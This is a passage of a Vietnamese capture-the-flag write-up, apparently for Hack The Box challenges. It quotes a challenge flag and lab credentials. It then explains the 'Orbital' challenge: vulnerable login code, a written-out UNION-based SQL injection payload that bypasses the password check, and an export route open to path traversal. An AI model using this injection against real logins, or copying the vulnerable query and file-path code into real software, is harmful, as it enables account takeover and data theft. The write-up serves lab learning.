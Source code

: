 Login vào với account `admin:123`

`HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}`

## Orbital
#### Easy
Đầu tiên là lỗi SQL Injection tại chức năng login, ta có thể tìm thấy đoạn code xử lý tại file `database.py`
```python
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```

username được nối trực tiếp vào câu query => giống bài Drobots

Tuy nhiên lần này password không được nối vào query mà được dùng để so sánh, ta có thể khiến câu select thứ nhất trả về null, rồi dùng cấu trúc UNION để nối kết quả 2 bảng lại với nhau, vì câu trước trả về NULL, câu sau thì do ta inject thêm vào nên ta sẽ kiểm soát được kết quả trả về của cả câu query

```
username: anhchangyeuem" UNION SELECT "admin","202cb962ac59075b964b07152d234b70
password: 123
```
`202cb962ac59075b964b07152d234b70` là md5 của 123 vì lát nữa hàm `passwordVerify` sẽ check bằng cách lấy md5 của input password so với kết quả trả về 

Câu query thành:

```sql 
SELECT username, password FROM users WHERE username = "anhchangyeuem" UNION SELECT "admin","202cb962ac59075b964b07152d234b70"
```

Lúc này thì vì password sẽ trả về là 123, password nhập vào cũng là 123 nên ta sẽ pass qua login

Đến phần sau ta để ý route `/export`:
```
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400

```
